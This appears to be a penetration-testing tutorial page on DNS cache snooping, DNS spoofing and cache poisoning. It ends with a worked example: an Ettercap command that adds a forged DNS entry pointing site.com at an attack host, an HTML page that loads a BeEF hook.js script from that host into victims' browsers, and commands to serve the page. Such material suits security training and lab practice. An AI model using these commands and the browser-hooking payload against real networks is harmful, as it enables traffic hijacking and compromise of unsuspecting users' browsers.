 The [nmap cache snooping script](https://nmap.org/nsedoc/scripts/dns-cache-snoop.html) can assist with cache snooping against an internal DNS server. Cache snooping shows where the targets are browsing on the Internet. This type of information disclosure can help aid in various attack scenarios:

* If knowing the websites the people (or a specific person) of an organisation frequents, a focused attack in which the web pages in the site are infected with malware is a possible attack vector (Waterholing).
* An attack method used to impersonate a victim’s DNS server, forcing them to navigate to a malicious website(DNS spoofing).
* The DNS resolver cache is overwritten on the DNS server with a malicious web address, and the user will receive the malicious site instead of the intended one (DNS cache poisoning).

## DNS spoofing

* DNS spoofing can be achieved by DNS redirection, an attack in which an adversary modifies a DNS server in order to redirect a specific domain name to a different IP address. In many cases, the new IP address will be for a server controlled by the adversary which contains files infected with malware. 
* Cache poisoning is another way to achieve DNS spoofing, without relying on DNS hijacking (physically taking over the DNS settings). An adversary inserts a forged DNS entry, containing an alternative IP destination for the same domain name, after which the DNS server resolves the domain to the spoofed website, until the cache is refreshed.
* DNS server spoofing attacks are often used to spread computer worms and viruses.
* This kind of attack is also often used for pharming.

## Example: DNS spoofing and cache poisoning

1. Use [Ettercap](https://www.ettercap-project.org): Modify the `/etc/ettercap/etter.dns` and add an entry to the file for the domain name "site.com" and have it point to the attack host.

```text
$ echo "site.com A <IP address attack host>" | sudo tee -a /etc/ettercap/etter.dns site.com A <IP address attack host>
```

2. Create a web page named `index.html` in the `/tmp` directory of the attack host to load a JavaScript [BeEF](https://www.kali.org/tools/beef-xss/) hook using the BeEF `hook.js` file:

```html
<HTML>
    <HEAD>
        <script src="http://site.com:3000/hook.js"></script>
    </HEAD>
    <BODY>
        You have been hooked!
    </BODY>
</HTML>
```

This is the web page the user will be directed to when they try to connect to `site.com`.

3. Use either the Python http server module to host the web page on port 80, OR move the file to `/var/www/html/` and start the apache2 server.

```text
# python -m SimpleHTTPServer 80
# service apache2 start
```
